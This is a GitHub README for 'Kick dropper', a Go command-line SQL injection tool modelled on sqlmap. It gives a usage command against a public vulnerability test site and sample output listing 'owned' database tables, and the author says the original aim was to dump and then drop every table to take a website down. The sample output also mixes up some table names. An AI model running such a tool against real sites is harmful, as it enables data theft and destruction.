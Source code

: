 ```
 __  __ __        __           _____        ______                         
|  |/  |__|.----.|  |--.______|     \.----.|      |.-----.-----.-----.----.
|     <|  ||  __||    <|______|  --  |   _||  --  ||  _  |  _  |  -__|   _|
|__|\__|__||____||__|__|      |_____/|__|  |______||   __|   __|_____|__|  
                                                   |__|  |__|              
                         ___
                        __H__
                         [']
                         [)]
                         ["]
                          V...Data....Inspired by SQLMAP
Powered by GoLang
-----------------------------------------------------------------------------

[22:4:42]  [INFO] CONNECTED: HTTP Status > [ 200 ]
+-----------+--------------+
|    Number |    Paramater |
+===========+==============+
|         1 |        catId |
+-----------+--------------+

[22:4:42]  [INFO] Found PARAMATERS to target, please enter the following number which you want to use ( EX: 1)
1

```

Kick dropper is a very simple and leightweight demonstration of SQL querying, and injection by parsing URl's, inspired by SQLmap with data output but not as fast, you might be asking why kick dropper, well the original plan was to download all of the database information, then drop every single table in every database it had and then thus terminating the website, however i could not find a way to properly do this and extracting the info just was not working, so i added something extra at the end 

# general usage and syntax 
```
go run main.go --url "<url>" | ex go run main.go --url "http://testphp.vulnweb.com/index.php?id=1"
```

# first output and input prompt 

```

[22:4:42]  [INFO] CONNECTED: HTTP Status > [ 200 ]
+-----------+--------------+
|    Number |    Paramater |
+===========+==============+
|         1 |        catId |
+-----------+--------------+

[22:4:42]  [INFO] Found PARAMATERS to target, please enter the following number which you want to use ( EX: 1)

```

when you are prompted to this then you will need to input the number in which the paramater is on ex 1

# output of tables 

i know the output is very very slow but depending on the URL it can out preform certian tools, when i was testing this tool on my own server it seems as if sqlmap wouldnt make a proper connection, however this still did, that was until i used verbose lv6 , random agent, tor, tor-type, u, dbms MySQL etc to speed up the process and actually get it to make requests and retrieve all the data

```
example output 


[22:4:42]  [DATA] TO OWN/RETRIEVE      =>  TBL_whatever
[22:4:42]  [DOWNLOAD 6] TABLE OWNED  =>  TBL_whatever
+----------------+
|           Name |
+================+
|    TBL_whatever |
+----------------+

[22:4:42]  [DATA] TO OWN/RETRIEVE      => TBLname
[22:4:42]  [DOWNLOAD 7] TABLE OWNED  => TBLname
+----------------+
|           Name |
+================+
|    TBLname     |
+----------------+

[22:4:42]  [DATA] TO OWN/RETRIEVE      => TBLadmin
[22:4:42]  [DOWNLOAD 8] TABLE OWNED  => TBLadmin
+-----------------+
|            Name |
+=================+
|    TBLadmin     |
+-----------------+

[22:4:42]  [DATA] TO OWN/RETRIEVE      => TBLname
[22:4:42]  [DOWNLOAD 9] TABLE OWNED  => TBLwhatever
+--------------+
|         Name |
+==============+
|    TB4       |
+--------------+

[22:4:42]  [DATA] TO OWN/RETRIEVE      => TBL4
[22:4:42]  [DOWNLOAD 10] TABLE OWNED  => TBL1
+-------------+
|        Name |
+=============+
|    TBL1     |
+-------------+
```

# servers supported 

```
MySQL Newest and oldest tested on both
```
 
